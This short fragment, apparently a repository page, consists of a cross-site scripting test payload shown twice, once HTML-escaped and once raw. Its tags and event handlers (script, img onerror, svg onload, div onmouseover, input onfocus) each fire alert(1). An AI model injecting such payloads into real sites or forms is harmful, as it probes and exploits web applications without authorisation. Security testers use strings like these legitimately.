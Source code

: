 # -script-alert-1-script-img-src-x-onerror-alert-1-img-svg-onload-alert-1-svg-di
">'>&lt;script>alert(1);&lt;/script>&lt;img src="x" onerror="alert(1)">&lt;/img>&lt;svg onload="alert(1)">&lt;/svg>&lt;div onmouseover="alert(1)">here&lt;/div>

">'></><script>alert(1);</script><img src="x" onerror="alert(1)"></img><svg onload="alert(1)"></svg><div onmouseover="alert(1)">here</div><input type="text" onfocus="alert(1)"></input>
